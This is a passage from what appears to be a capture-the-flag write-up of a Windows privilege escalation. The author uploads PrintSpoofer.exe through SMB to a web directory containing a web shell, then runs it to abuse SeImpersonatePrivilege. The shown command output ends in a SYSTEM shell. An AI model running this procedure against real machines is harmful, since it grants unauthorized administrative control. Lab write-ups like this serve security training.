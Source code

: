 —> We use tool to escalate: PrintSpoofer.

![Untitled 7](https://github.com/user-attachments/assets/fc4f5985-5b81-4c17-9754-0e06fb4ddd80)

- We got tool from GitHub
- We upload file PrintSpoofer.exe by `put PrintSpoofer.exe`  in SMBClient and now we check file in `c:\inetpub\wwwroot\nt4wrksv`  —> File is available.

```bash
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

07/03/2024  05:26 AM    <DIR>          .
07/03/2024  05:26 AM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
07/03/2024  05:26 AM            27,136 PrintSpoofer.exe
07/03/2024  05:21 AM             3,418 shell.aspx
               3 File(s)         30,652 bytes
               2 Dir(s)  20,278,337,536 bytes free
```

- Run file PrintSpoofer.exe and we got ‘Admin’

```bash
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

![Untitled 8](https://github.com/user-attachments/assets/da024cac-d92c-49d1-bef2-53a941756ab2)

END!!!
